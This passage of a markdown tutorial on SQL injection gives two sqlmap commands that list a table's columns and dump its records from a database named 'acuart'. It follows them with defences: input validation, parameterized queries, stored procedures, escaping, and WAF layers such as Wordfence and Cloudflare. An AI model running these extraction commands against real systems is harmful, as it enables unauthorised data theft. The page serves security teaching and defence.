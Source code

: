 **Get the columns**

```
python3 sqlmap.py -r request.txt -D acuart -T [table name] --columns
```

**Get records/ Extract data** 

```
python3 sqlmap.py -r request.txt -D acuart -T [table name] -C [coloumn names] --dump
```



## Defend Against SQL Injection Attacks

1. Input validation
2. Parameterized queries
3. Stored procedures
4. Escaping

https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/

### Multi Layer Defense

1. **Layer 1 - Secure Coding**

- Input validation
- Parameterized queries
- Stored procedures
- Escaping

2. **Layer 2 - Host Based WAF (Web Application Firewall)**

   - Wordfence - Wordpress WAF

     https://www.wordfence.com/

3. **Layer 3 - Edge Sided WAF**

   - Cloudflare

     

